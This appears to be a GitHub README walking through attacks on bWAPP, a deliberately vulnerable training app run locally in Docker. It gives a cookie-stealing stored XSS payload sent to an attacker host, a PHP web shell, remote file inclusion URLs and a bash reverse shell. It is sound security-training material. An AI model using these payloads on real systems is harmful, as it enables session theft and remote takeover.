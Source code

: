 # bWAPP Exploitation Guide

This repository provides a comprehensive guide on exploiting bWAPP for learning purposes. It covers two key vulnerabilities: **Stored Cross-Site Scripting (XSS)** for session hijacking and **Remote File Inclusion (RFI)** for reverse shell access. **bWAPP** (Buggy Web Application) is an intentionally vulnerable web application designed for security testing and education.

> **Disclaimer:** This guide is for educational purposes only. Unauthorized testing or exploitation is illegal.

---

## Table of Contents

1. [Introduction](#introduction)
2. [Setup the Environment](#setup-the-environment)
3. [Stored XSS for Session Hijacking](#stored-xss-for-session-hijacking)
4. [Remote File Inclusion (RFI) Exploitation](#remote-file-inclusion-rfi-exploitation)
5. [Disclaimer](#disclaimer)

---

## Introduction

This tutorial uses bWAPP running inside a Docker container. The attacks demonstrate the following:

- **Stored XSS for session hijacking**: Exploit an XSS vulnerability to steal session cookies and impersonate users.
- **RFI for reverse shell**: Use a Remote File Inclusion vulnerability to execute a reverse shell.

---

## Setup the Environment

### 1. Install Docker
Ensure Docker is installed. Follow the [Docker installation guide](https://docs.docker.com/get-docker/) for your operating system.

### 2. Pull the bWAPP Docker Image
Run the following command to download the bWAPP image:
```bash
docker pull raesene/bwapp
```

### 3. Start the bWAPP Container
Launch the container:
```bash
docker run -d -p 8000:80 --name bwapp raesene/bwapp
```
Verify it is running:
```bash
docker ps
```

Access bWAPP in your browser: [http://localhost:8000](http://localhost:8000)

---

## Stored XSS for Session Hijacking

### 1. Access bWAPP
Login with default credentials:
- Username: `bee`
- Password: `bug`

### 2. Create a Victim Account
Navigate to the **Create User** section and register a new user:
- Username: `aaa`
- Password: `aaa`

### 3. Exploit Stored XSS

1. Log in as `aaa`.
2. Navigate to a page vulnerable to Stored XSS (e.g., [http://localhost:8000/xss_stored.php](http://localhost:8000/xss_stored.php)).
3. Inject the following payload into a comment field:
   ```html
   <script>document.location='http://<ATTACKER_IP>:9999/steal?cookie='+document.cookie;</script>
   ```
   Replace `<ATTACKER_IP>` with your machine’s IP.

### 4. Capture Stolen Cookies

1. Create a listener to capture cookies:
   ```bash
   mkdir xss_listener
   cd xss_listener
   python -m http.server 9999
   ```
2. Wait for the victim (e.g., admin user `bee`) to visit the infected page.
3. Extract the session cookie from your listener logs.

### 5. Hijack the Session
Edit your browser’s session cookie (using developer tools) to impersonate the victim.

---

## Remote File Inclusion (RFI) Exploitation

### 1. Enable RFI in PHP
Enter the Docker container:
```bash
docker exec -it bwapp /bin/bash
```
Edit the PHP configuration file:
```bash
vi /etc/php/7.0/apache2/php.ini
```
Modify these settings:
```ini
allow_url_include = On
allow_url_fopen = On
```
Restart Apache:
```bash
service apache2 restart
```

### 2. Host the Malicious PHP Script
On your attacker machine, create and host a malicious script:
```bash
echo "<?php if (isset($_GET['cmd'])) { system($_GET['cmd']); } else { echo 'RFI Proof of Concept'; } ?>" > evil.php
python -m http.server 9999
```

### 3. Test the RFI Vulnerability
Visit the vulnerable page:
```http
http://localhost:8000/rlfi.php
```
Inject the malicious URL:
```http
http://localhost:8000/rlfi.php?language=http://<ATTACKER_IP>:9999/evil.php&cmd=whoami
```
Replace `<ATTACKER_IP>` with your machine’s IP.

### 4. Start a Reverse Shell Listener
On your attacker machine:
```bash
nc -lvp 4444
```

### 5. Trigger the Reverse Shell
Use the following payload:
```http
http://localhost:8000/rlfi.php?language=http://<ATTACKER_IP>:9999/evil.php&cmd=/bin/bash%20-c%20"bash%20-i%20>%20/dev/tcp/<ATTACKER_IP>/4444%200>%261"
```
Replace `<ATTACKER_IP>` with your machine’s IP.

---

## Disclaimer

This guide is intended for **educational purposes only**. Unauthorized exploitation of systems is illegal and unethical. Always obtain proper authorization before performing any security testing.

